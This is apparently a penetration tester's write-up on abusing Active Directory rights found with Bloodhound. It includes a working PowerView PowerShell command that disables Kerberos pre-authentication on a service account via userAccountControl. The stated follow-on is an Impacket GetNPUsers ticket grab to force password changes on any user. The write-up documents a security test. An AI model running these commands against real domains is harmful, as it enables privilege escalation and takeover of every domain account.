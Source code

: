 # Changing the userAccountControl Attribute in AD

Recently I was conducting some technical testing, specifically permissions and privileges that users have in AD. During the tests I found that a group containing low privileged users had the `GenericAll` permission over a service account that had the `ForceChangePassword` permission over ALL user accounts in the domain.

I used Bloodhound to analyse these:

<img width="732" alt="Screenshot 2023-02-18 at 17 21 51" src="https://user-images.githubusercontent.com/42491100/219879488-f09b9da4-a189-475a-92e0-f16dd4ec51e3.png">

The image is for illustrative purposes only, there are more than 3 user accounts in the domain!

I couldn't change the service account password as it would break the underlying service. So I decided to briefly change the `userAccountControl` attribute on the object so I could get a Kerberos Ticket Granting Ticket for the account and abuse it that way instead. I used `PowerView` to do this:

```powershell
 . .\PowerView.ps1
$username = "low.priv.account@domain.local";
$password = ConvertTo-SecureString "PASSWORD_HERE" -AsPlainText -Force;
$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $username, $password;

Set-DomainObject -Identity 'target.account' -Set @{'userAccountControl'=0x410200} -Credential $cred -Domain "domain.local" -Server '172.16.1.5'; 
```

The setting I made breaks down as follows:

```
NORMAL_ACCOUNT	0x0200
DONT_EXPIRE_PASSWORD	0x10000
DONT_REQ_PREAUTH	0x400000
```

More settings can be referred to at:

https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties

The initial attribute value was `0x10200`.

I could then grab a TGT (using Impacket GetNPUsers), force a password change on any user, and change the attribute back.
